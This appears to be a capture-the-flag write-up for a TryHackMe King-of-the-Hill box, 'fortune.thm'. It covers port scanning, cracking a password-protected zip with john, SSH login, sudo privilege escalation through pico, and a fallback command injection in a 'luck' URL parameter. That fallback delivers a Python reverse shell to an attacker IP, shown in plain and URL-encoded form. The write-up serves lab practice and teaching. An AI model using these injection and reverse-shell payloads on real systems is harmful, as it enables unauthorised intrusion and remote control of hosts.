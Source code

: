 # Fortune.THM - Koth 

as koth is an intensive competition on flags and king declerations it is naturaly a good practice to scan a bunch of things at ones. some what of a fuzzing for entries... in real life this type of stratagy is very loud so don't mimic anything from here this is nat practical at all

### enum
```bash
nmap fortune.thm -p- 
nmap fortune.thm -sV -sC 
nmap fortune.thm 
```
we got a lot of ports lets go for port 3333

### netcat
ill try to use netcat to see what's on the other side

nc fortune.thm 3333

I Got an encoded string... 
I pretty sure it's base64


```bash
nc fortune.thm 3333 | base64 -d
```

i get an output with a "magic byte" = PK
PK is the zip magic byte and every zip file is and shuld have PK at the start of the file.
In addition we can see a file name in the output called "creds.txt". this is defenetly a zip file...
lets save this output as a file

```bash
nc fortune.thm 3333 | base64 -d > test.zip
unzip test.zip 
Archive:  test.zip
[test.zip] creds.txt password: 
```

looks like this file has a password, john is my man for the job!

### Meet my friend John.
creat the john file format with zip2john and then send it to john
```bash
zip2john test.zip > hash.txt
john hash.txt
unzip test.zip

unzip test.zip 
Archive:  test.zip
[test.zip] creds.txt password: 
replace creds.txt? [y]es, [n]o, [A]ll, [N]one, [r]ename: y
 extracting: creds.txt               
```

now that we have our password to the zip file we can unzip and see what contain the creds.txt file
```bash
cat creds.txt
```
we found a use named "fortuna" and his password "**********"

```bash
ssh fortuna@fortune.thm
password:
```

and we are in!
```bash
sudo -l
```
we can see that we are indeed in the sudoers file but we can only run pico as sudo
lets go to https://gtfobins.github.io/ to see what pico can do for us

so i got the shell type b 'exploit'

we run 
```bash
pico -s /bin/sh
```

we type in the text editor "/bin/sh"
and then we will ^T (CTRL + T) to execute out command

and it works just fine Although I think a stable shell can be helpful here and in KOTH in general look here to learn more "https://www.youtube.com/watch?v=f2aSXGbD0NE"


## method b if password has changed / we are no longer a sudo user

try to do somthing like

```bash
cd /home
while True; do bash ./lucky_shell
```

this binery is just an exploit on the system and we can run it until we get a root shell


If you are locked out from fortuna

```
gobuster dir -w ~/Desktop/wordlistex2.txt -u http://fortune.thm
```
found _style and a message within saying something about the luck paramater... so i just gave it a luck paramater...

fortune.thm/_style/?luck=ls

and sure enoght it works! well.. not on the first try
most of the time this will fail but in some cases the command will execute...
lets check if python is around

```html
fortune.thm/_style/?luck="python -c 'print(1)'"
```
and it is!

kali:
```bash
nc -nlvp 1234
```

payload:
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("MYIP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

poc:
```html
http://fortune.thm/_styles/?luck=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22MYIP%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27
```

and the rest is the same!